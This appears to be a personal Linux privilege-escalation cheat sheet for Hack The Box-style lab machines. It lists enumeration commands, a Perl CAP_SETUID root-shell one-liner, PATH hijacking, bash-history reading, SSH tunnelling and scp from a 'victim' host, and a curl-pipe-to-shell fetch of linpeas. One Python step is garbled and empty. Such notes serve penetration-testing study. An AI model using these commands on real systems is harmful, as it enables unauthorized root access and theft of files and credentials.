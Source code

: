 # Linux Priviledge Escalation

------------------------------------------------------

### Initial Commands
`whoami;id`

`cat /etc/passwd`

`sudo -l`

`crontab -l`


### Find Setuid enabled Programs
`find / -perm -u=s -type f 2>/dev/null`

### Capabilities search 
`getcap -r / 2>/dev/null`
* Check `/etc/apparmor.d` directory as it contains resctrictions for **setuid** capabilities.
* If things don't workout, try to use **shebang** (like "#! /usr/bin/perl") and then run the file like an *executable*. 

### If perl or python have CAP_SETUID capabilities, run following commands and then execute the file(for python)

* Perl: 
`perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'`

* Python	:
`echo "	" >test.py`

### For MySql Service:
Connect to Mysql server from the victim : `mysql -u username -h localhost --password=userpassword -D databasename -e 'show tables;'`

### Other useful commands and tips

* `df` - to see free disk space of all mounted devices

* Remember `echo "/bin/bash">file`  NOT  `cp /bin/bash ./file`
	
* `export PATH=/tmp:$PATH` 

* `cat ~/.bash_history`

* Always check the home and tmp directories.

scp charix@10.10.10.84:/home/charix/secret.zip .

vncviewer 127.0.0.1:5000 -passwd secret 

ssh -L 5000:127.0.0.1:5901 charix@10.10.10.84  

cat /etc/crontab

### GIT Commands:

# Whenever you see .git files try out these commands 

* `git log`: Display git history
* `git log --oneline` : Display git history with one commit per line
* `git log -p` : Display changes made in files in each commit.
* `git reset HEAD^` : Undo the commits (Very Imp).

### Linpeas
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`
